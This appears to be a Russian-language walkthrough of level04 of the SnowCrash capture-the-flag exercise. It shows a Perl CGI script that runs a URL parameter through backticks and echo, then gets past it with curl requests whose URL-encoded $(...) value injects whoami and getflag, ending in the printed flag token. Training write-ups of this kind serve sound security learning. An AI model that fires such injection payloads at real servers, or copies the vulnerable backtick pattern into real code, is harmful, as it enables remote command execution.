 у нас есть файл level04.pl

включает он в себя отправку запроса на сервер
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
level04@SnowCrash:~$ ./level04.pl 
Content-type: text/html

пробуем что нибудь запросить через curl
level04@SnowCrash:/tmp/level04$ curl "http://localhost:4747/level04.pl?x=whoami"
whoami

выводит whoami потому что в таком формате запрос инициализирует команду echo

level04@SnowCrash:/tmp/level04$ curl "http://localhost:4747/level04.pl?x=$(whoami)"
level04

В случае $(...), оболочка пытается выполнить команду локально, а в случае %24(...) символ $ передается как текст в URL, который будет обработан сервером.

level04@SnowCrash:/tmp/level04$ curl "http://localhost:4747/level04.pl?x=%24(whoami)"
flag04

получаем выполненную команду


проверяем что у нас есть


level04@SnowCrash:/tmp/level04$ curl "http://localhost:4747/level04.pl?x=$(getflag)"
curl: (3) Illegal characters found in URL

натыкаемся на ошибку

level04@SnowCrash:/tmp/level04$ curl "http://localhost:4747/level04.pl?x=%24(getflag)"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

